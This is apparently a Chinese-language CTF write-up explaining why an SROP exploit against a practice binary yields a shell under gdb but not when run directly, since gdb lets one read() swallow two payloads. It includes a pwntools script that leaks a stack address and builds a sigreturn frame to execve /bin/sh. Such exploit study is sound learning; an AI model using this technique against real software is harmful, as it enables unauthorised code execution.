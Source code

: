 而是下面这个错误的exp(这个exp脚本直接运行的话，是拿不到shell的，但是如果用gdb附加进程调试的话，是可以拿到shell的，因此这个exp是非常奇怪的，但它确实是错的，只不过因为巧合在调试的情况下，是正确的)

可以发现这个exp发送了三次payload

第三次和第二次payload就是在布置准备执行srop的条件

当时用gdb调试走到最后发现就可以获取shell

但是如果直接运行这个脚本就不能获取shell

卡了很久很久，最后请教了roderick师傅，最后豁然开朗，解释如下。

**在挂gdb的时候 第二次的read还没有执行，但是内核缓冲区的数据已经拷贝到了用户数据 意思就是说 我的第二次payload和第三次的payload现在都存到了缓冲区里面 gdb调试到了第二个read，直接就把两次的payload 都给读进去了（我又看了下调试发现却是是这样） 然后这两次的内容在一次里面修改了栈空间恰好就是对的了 但是我程序运行的时候，还是发了三次的payload**

****

 **简单来说就是就是其实我现在用gdb看的是一种假象，gdb现在调试让我看到的 是一次性发送了两个payload的情况，但事实上我程序本身运行的时候 并不是我现在gdb看到的情况**** 

 <font color=red>**以后这里就要注意了，如果是多个read的情况，使用gdb调试的时候要注意，避免一次read给读进去两次payload。**</font>


```python
from pwn import *
#p=remote('node4.buuoj.cn',26430)
p=process('./a')
context(arch='amd64',os='linux',log_level='debug')
#gdb.attach(p,'b *'+'0x400517')
#gdb.attach(p)
print('pid'+str(proc.pidof(p)))
vul_addr=0x4004ED
modify_rax=0x4004DA
syscall_ret_addr=0x400517
payload='a'*16+p64(vul_addr)
p.send(payload)
leak_addr=u64(p.recv()[32:40])
target_addr=leak_addr-0x118
payload='/bin/sh\x00'+p64(vul_addr)+p64(modify_rax)+p64(syscall_ret_addr)#核心问题是在这里，此时的return直接返回到了modify_rax这个地址，没有到vul_addr这个地址，因此程序其实并没有执行第三次的输入。
p.send(payload)
frame=SigreturnFrame()
frame.rax=0x3b
frame.rdi=target_addr
frame.rdx=0
frame.rsi=0
frame.rip=syscall_ret_addr
payload=str(frame)
p.send(payload)
print(hex(target_addr))
p.interactive()
```
